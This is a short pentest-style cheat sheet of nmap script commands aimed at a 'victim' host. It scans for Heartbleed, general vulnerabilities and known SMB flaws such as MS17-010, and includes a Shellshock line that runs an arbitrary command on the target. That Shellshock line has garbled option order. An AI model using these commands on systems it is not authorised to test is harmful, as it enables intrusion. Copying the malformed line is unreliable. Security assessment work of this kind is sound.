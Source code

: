 - [heartbleed](#heartbleed)
- [vuln](#vuln)
- [smb](#smb)
- [shellshock](#shellshock)

### heartbleed
```
nmap -p [victim_port] --script ssl-heartbleed [victim_ip]
```

### vuln
```
nmap -p [victim_port] --script vuln [victim_ip]
```

### smb
```
nmap -p [victim_port] -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse [victim_ip]
```

### shellshock
```
nmap --script -p [victim_port] http-shellshock --script-args uri=[/vuln/path] cmd=[yours_command] [victim_ip]
```
